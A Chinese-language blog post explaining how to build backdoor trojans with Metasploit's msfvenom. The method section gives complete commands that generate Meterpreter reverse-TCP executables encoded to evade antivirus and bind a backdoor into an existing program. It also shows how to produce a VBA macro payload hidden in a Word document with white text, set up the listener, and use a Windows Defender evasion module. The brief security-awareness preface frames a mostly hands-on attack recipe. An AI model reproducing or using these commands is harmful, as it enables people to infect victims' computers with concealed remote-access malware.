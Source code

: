 ```yaml
---
title: 后门木马之Msfvenom
author: Pandaho
date: 2021-07-12 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/security-Msfvenom/cover.png
---
```




*在这个互联网世界，人们已经离不开软件的使用，而很多非安全从业者其安全意识的薄弱让木马软件如洪水一般地泛滥，使得大量个人电脑沦落为肉鸡，虽现在杀毒引擎已能查杀市面上大部分主流的病毒，但免杀技术也是在不断发展，所以个人对其主机上使用的软件安全还是要有一定的审查能力，避免不知不觉就成为他人的玩偶。*




## **原理**

**Msfvenom：**

主要用于生成后门和软件捆绑后门,可利用msfvenom生成木马程序，在本地开启监听，并在目标机上执行，使目标机沦为肉鸡。

**MSF渗透攻击流程：**

1、扫描目标机系统，寻找可用漏洞。

2、选择并配置一个漏洞利用模块。

3、选择并配置一个攻击载荷模块。

4、选择一个编码技术，用来绕过杀毒软件的查杀。

5、进行渗透攻击。

病毒通常会做一些有害的或者恶性的动作。在病毒代码中实现这个功能的部分叫做“有效负载”（payload）。payload可以实现任何运行在受害者环境中的程序所能做的事情，并且能够执行动作包括破坏文件删除文件，向病毒的作者或者任意的接收者发送敏感信息，以及提供通向被感染计算机的后门。      **———摘自《决战恶意代码》**

payloads模块，也叫有效载荷或有效负载，也就是我们常说的shellcode。在MSF中为我们提供了大量的实用payloads。

**编码器：**正常的MSFVenom生成的有效负载很容易被大多数杀毒软件或防火墙检测到。MSFVenom提供了一种称为编码器的功能，可以用来绕过防火墙和防病毒软件。您可以利用其中的一些AV旁路和WAF旁路。使用-e标志将其与任何编码器名称一起使用

**宏病毒：**宏病毒是一种寄存在文档或模板的宏中的计算机病毒，存在于数据文件或模板中（字处理文档、数据表格、数据库、演示文档等），使用宏语言编写，利用宏语言的功能将自己寄生到其他数据文档，一旦打开带有宏病毒的文档，宏就会被执行，宏病毒就会被激活，转移到计算机上，驻留在Normal模板上。在此之后所有自动保存的文档都会“感染”上这种宏病毒，如果其他用户打开了感染病毒的文档，宏病毒又会转移到他的计算机上。



## **方法**

**生成木马**

```shell
msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 -platform（指定运行平台）  windows -p（指定攻击载荷） windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=（端口） -b（去掉坏字符）“\x00”(x表示16进制，00表示空字符) -e（指定编码器，主要为了逃过杀毒，免杀） x86/shikata_ga_nai -i(编码次数) 10 （文件随着编码次数变大） -f（指定输出格式） exe -o /var/xxxxxx
```

**植入软件后门**

```shell
msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 --platform（指定运行平台）  windows -p（指定攻击载荷） windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=（端口） -b（去掉坏字符）“\x00”(x表示16进制，00表示空字符) -e（指定编码器，主要为了逃过杀毒，免杀） x86/shikata_ga_nai -i(编码次数) 10 -x   xxxx.exe  -f（指定输出格式） exe -o /var/xxxxxx
```

**多层编译**

```shell
msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 -platform（指定运行平台）  windows -p（指定攻击载荷） windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=（端口） -b（去掉坏字符）“\x00”(x表示16进制，00表示空字符) -e（指定编码器，主要为了逃过杀毒，免杀） x86/shikata_ga_nai -i(编码次数) 10 （文件随着编码次数变大） | msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 -platform（指定运行平台）  windows -e x86/alpha_upper -I 10 -f（指定输出格式） exe -o /var/xxxxxx
```

**制作宏病毒**

```shell
msfvenom -a X86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.42.1 LPORT=4444  -e x86/shikata_ga_nai -i 10  -f  vba-exe
```

生成Marco code，创建个宏后将code copy到宏内，然后将将剩下的宏代码copy到word中，字体颜色设置成与背景一样的白色等进行隐藏。



**开启MSF监听**

```shell
msfdb run  #运行msf
use exploit/multi/handler   #加载监听模块
show options   #显示参数
set payload windows/meterpreter/reverse_tcp  #设置攻击载荷
set LHOST 和 LPORT   #设置ip和端口
RUN  #运行
help  #查看命令
在目标机（windows）可 ps 查询 pid号，通过 taskkill /pid  ?  杀死进程
```

我们还可以使用其他模块，在进入msfdb的时候我们会发现evasion存在多个模块

```shell
search evasion  #搜索全部模块
use  evasion/windows/windows_defender_exe  
该模块生成的木马文件，可修改filename

   Name      Current Setting  Required  Description  
   ----      ---------------  --------  -----------
   FILENAME  Kydqcp.exe       yes       Filename for the evasive file (default: random)
   
Run   #运行生成木马
[*] Compiled executable size: 3584
[+] Kydqcp.exe stored at /root/.msf4/local/Kydqcp.exe
```

![附图](/assets/img/security-Msfvenom/1.png)



## 参考来源

学神科技

[基础msfvenom](https://www.bilibili.com/read/cv7159256/)

[原理](http://www.91ri.org/5105.html)

[英文详解](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)

[宏病毒](https://zhuanlan.zhihu.com/p/222086692)
